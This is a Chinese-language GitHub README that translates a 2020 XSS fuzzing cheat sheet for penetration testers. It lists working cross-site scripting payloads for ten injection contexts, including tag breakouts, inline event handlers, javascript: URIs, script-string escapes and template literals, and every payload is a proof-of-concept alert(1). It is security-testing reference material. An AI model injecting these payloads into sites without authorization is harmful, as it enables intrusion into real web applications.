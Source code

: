 # XSS_Cheat_Sheet_2020_Edition

## 简介
xss漏洞模糊测试有效载荷的最佳集合 2020版 <br>
该备忘清单可用于，漏洞猎人，安全分析，渗透测试人员，查找web应用的跨站点脚本漏洞 <br>
本备忘录翻译自国外的XSS_Cheat_Sheet_2020_Edition.pdf议题，源文件可在本项目内直接下载 <br>

## 摘要
**1.基本** <br>
**2.高级** <br>
**3.绕过** <br>
**4.利用** <br>
**5.额外** <br>
**6.枚举** <br>

## 内容
**1.HTML Injection （代码注入）** <br>
当输入的payload，被插入到HTML标签或外部标签的属性值内时，则使用下面的方法进行测试，如果输入的内容被插入到了HTML注释，则在payload之前添加"->"
```
<svg onload=alert(1)>
"><svg onload=alert(1)>
```
**2.HTML Injection – Tag Block Breakout（HTML注入–标签闭合）** <br>
当输入的payload，被插入到以下标签的内部时，使用以下标签：<br>
`<title> <style> <script> <textarea> <noscript> <pre> <xmp> <iframe>` （`</tag>`为相应的html标签）。
```
</tag><svg onload=alert(1)>
"></tag><svg onload=alert(1)>
```
**3.HTML Injection - Inline （HTML注入-内联标签）** <br>
当输入的payload，被插入到HTML标签的属性值内，但该标签不能以大于号（>）进行闭合。<br>
```
"onmouseover=alert(1) //
"autofocus onfocus=alert(1) //
```
**4.HTML Injection - Source（HTML注入-源）** <br>
当输入的payload，被作为以下HTML标签属性的值使用时：`href`，`src`，`data`或`action`。payload中的`src`属性值可以是一个URL或者`"data:,alert(1)"`。
```
javascript:alert(1)
```
**5.Javascript Injection (javascript注入)** <br>
当输入的payload，被插入到javascript标签块中的字符串定界值中时使用。
```
'-alert(1)-'
'/alert(1)//
```
**6.Javascript Injection - Escape Bypass (javascript注入-绕过)** <br>
当输入的payload，被插入到javascript标签块字符串定界值中，但具有单引号，可以尝试使用反斜杠注释进行绕过。
```
\'/alert(1)//
```
**7.Javascript Injection – Script Breakout (javascript注入-脚本突破)** <br>
当输入的payload，被插入到javascript标签块中的任何位置时使用。
```
</script><svg onload=alert(1)>
```
**8.Javascript Injection - Logical Block (javscript注入-逻辑代码块)** <br>
当输入的payload，被插入到javascript标签块时，使用第一个或第二个payload，该值如果位于字符串分隔值或在单个逻辑代码块（如函数或条件（if，else，等等中）。 如果需要引用转义反斜杠，请使用第3个payload。
```
'}alert(1);{'
'}alert(1)%0A{'
\'}alert(1);{//
```
**9.Javascript Injection - Quoteless (javscript注入-无变量名)**

当输入的payload在同一行javascript代码中有多次反射时使用。<br>
第一个payload适用于简单的javascript变量，第二个payload适用于非嵌套的javascript对象。 <br>
```
/alert(1)//\
/alert(1)}//\
```
**10.Javascript Context - Placeholder Injection in Template Literal (javascript注入-模板文字中的占位符注入)**
当输入的payload被插入到反引号```（``）```分隔的字符串内或模板引擎中时使用。
```
${alert(1)}
```

## 致谢
**英文议题作者：** <br>
@brutelogic <br>
<br>
**中文翻译团队：**<br>
@farmsec <br>
@farmsec_alice <br>
@farmsec_lancet <br>
@farmsec_answer <br>

